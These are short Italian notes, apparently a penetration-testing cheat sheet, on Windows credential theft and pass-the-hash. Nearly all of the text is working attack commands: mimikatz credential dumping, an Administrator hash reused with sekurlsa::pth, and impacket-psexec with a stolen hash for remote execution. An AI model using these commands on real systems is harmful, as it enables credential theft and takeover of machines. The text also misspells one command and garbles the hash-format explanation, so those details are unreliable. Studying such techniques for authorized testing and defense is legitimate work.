

Per eseguire l'attacco è necessario essere almeno amministratori locali della macchina.
privilege::debug
e
sekursla::logonPasswords
Il primo risultato è l'hash della paswd che stiamo utilizzando, ma scendendo, potremmo trovare l'hash dell'Amministratore:

sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH
-------------------------------------------------------------------------------------------------------------------
Alternativa a mimikatz → Dopo aver ottenuto l'hash dell'Amministratore:
impacket-psexec -hashes 00000000000000000000000000000000:HASH administrator@IP
(formato NT:LM, dove NT è nullo)